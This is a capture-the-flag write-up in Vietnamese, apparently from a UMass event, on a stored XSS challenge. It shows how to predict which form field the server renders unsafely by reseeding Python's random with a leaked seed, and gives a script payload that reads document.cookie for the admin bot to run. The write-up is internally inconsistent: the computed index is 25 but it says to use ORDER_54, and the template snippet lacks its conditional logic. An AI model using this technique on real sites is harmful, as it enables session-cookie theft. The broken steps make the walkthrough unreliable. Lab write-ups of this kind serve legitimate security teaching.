


### Overview

Bài web này là một dạng stored XSS có điều kiện. Người chơi được nhập dữ liệu vào nhiều ô `ORDER_x`. Khi submit, server sẽ chọn chỉ một ô duy nhất để render unsafe. Nếu đặt payload XSS đúng vào ô đó, rồi khiến bot admin/chancellor vào trang `/view/<uid>/<seed>`, payload sẽ chạy trong trình duyệt bot.

### Chỉ có 1 ô bị render unsafe

Ở template, server render như sau:

```jinja2

    {{ content | safe }}

    {{ content }}

```

Điều này có nghĩa:

- nếu payload nằm đúng `vuln_index` -> XSS chạy
- nếu nằm sai ô -> payload chỉ hiện dưới dạng text

### `vuln_index` được tính từ `seed`

Phía server:

```python
random.seed(seed)
v_index = random.randint(1, 66)
```

Trong khi đó `seed` lại bị lộ công khai qua link `/view/<uid>/<seed>` hiển thị trên giao diện.

Vậy nên chỉ cần lấy `seed`, chạy lại đúng logic Python là tính được ô vuln_index



```python
import random
random.seed(6991)
print(random.randint(1, 66))
```

kết quả là:

```text
25
```

=> phải chèn payload vào **ORDER_54**.


### Payload khai thác

Sau khi xác định được ô dễ tổn thương, chỉ cần chèn payload XSS đơn giản như sau:

```html
<script>console.log(document.cookie)</script>
```

Submit form sau khi đã chèn payload vào đúng ô.

Sau khi submit, hệ thống sẽ lưu nội dung vừa nhập và tạo link xem lại theo dạng:

```text
/view/<uid>/<seed>
```

### Execute URL

Go to the chancellor, paste URL ở trang web chính, ta sẽ có được flag




### Flag

```text
UMASS{m@7_t53_f0rce_b$_w!th_y8u}
```